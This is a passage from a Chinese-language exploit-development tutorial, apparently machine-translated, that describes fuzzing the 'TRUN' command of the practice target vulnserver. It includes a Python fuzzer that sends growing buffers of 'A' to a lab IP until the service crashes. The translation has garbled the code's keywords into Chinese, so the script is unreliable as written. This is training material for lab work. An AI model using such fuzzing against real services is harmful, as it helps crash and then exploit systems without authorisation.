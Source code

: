 # *4 —起毛*

*fuzzing 方法非常类似于 spiking，因为我们将在一个特定的命令中发送多个字符，并试图使其崩溃。不同的是，对于尖峰信号，我们试图对各种参数进行测试，以找出哪些是易受攻击的。既然我们知道*“TRUN”*参数配置不正确，我们将专门攻击该命令。*

*在我们开始模糊化*“vulnserver”*之前，我们必须设置环境。首先以管理员身份在 Windows 机器上运行*“vulnserver”*和 Immunity 调试器。然后将*“vulnserver”*运行进程附加到 Immunity，运行调试器。*

*运行您最喜欢的文本编辑器，键入以下几行:*

**—————**

**#！/usr/bin/python**

**导入系统，插座**

**从时间导入睡眠**

**buffer = "A" * 100**

**为真时:**

**试试:**

**s = socket.socket(套接字。AF_INET，socket。SOCK_STREAM)**

**s.connect(('10.10.10.4 '，9999))**

**s.send(('TRUN /。:/' + buffer))**

**s.close()**

**睡眠(1)**

**buffer = buffer + "A" * 100**

**除了:**

**打印“在%s 字节“% str(len(buffer))”时模糊崩溃**

**sys.exit()**

**—————**

*![](img/10046ca430e031708a2d866a9a0a3808.png)*
